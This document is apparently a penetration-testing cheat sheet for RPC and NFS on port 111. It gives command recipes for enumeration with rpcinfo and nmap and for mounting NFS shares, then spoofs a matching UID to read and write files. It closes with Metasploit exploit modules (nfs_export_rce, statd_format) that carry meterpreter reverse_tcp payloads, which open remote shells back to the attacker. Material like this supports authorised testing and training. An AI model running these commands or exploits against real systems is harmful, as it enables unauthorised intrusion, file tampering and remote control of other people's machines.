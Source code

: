 # RPC

## Enumeration

##### rpcbind
```bash
rpcbind -p [IP]
```

##### rpcinfo
```bash
rpcinfo -p [IP]
```

##### nmap
```bash
nmap -sV -p 111 --script=rpcinfo [IP]
```

##### nmap
```bash
nmap -p 111 --script nfs* [IP]
```

##### mount, read/write, change permission with a new user/UID.
```bash
mount -t nfs -o vers=3 [IP]:/[SHARE] /mnt/[SHARE]
groupadd --gid [NUMBER] [NAME]
useradd --uid [NUMBER] -g [NAME] [PASS]
```

### Metasploit

##### rpcinfo
```bash
use auxiliary/scanner/rpc/rpcinfo
set RHOSTS [IP]
set RPORT 111
run
```

##### portmap_lookup
```bash
use auxiliary/scanner/rpc/portmap_lookup
set RHOSTS [IP]
set RPORT 111
run
```

##### mount
```bash
use auxiliary/scanner/nfs/mount
set RHOSTS [IP]
set RPORT 111
run
```

##### nfs_showmount
```bash
use auxiliary/admin/nfs/nfs_showmount
set RHOSTS [IP]
set RPORT 111
run
```


---
---


## Exploitation

### Metasploit

##### nfs_export_rce
```bash
use exploit/linux/nfs/nfs_export_rce
set RHOSTS [IP]
set RPORT 111
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST [IP]
run
```

##### statd_format
```bash
use exploit/linux/misc/statd_format
set RHOSTS [IP]
set RPORT 111
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST [IP]
run
```
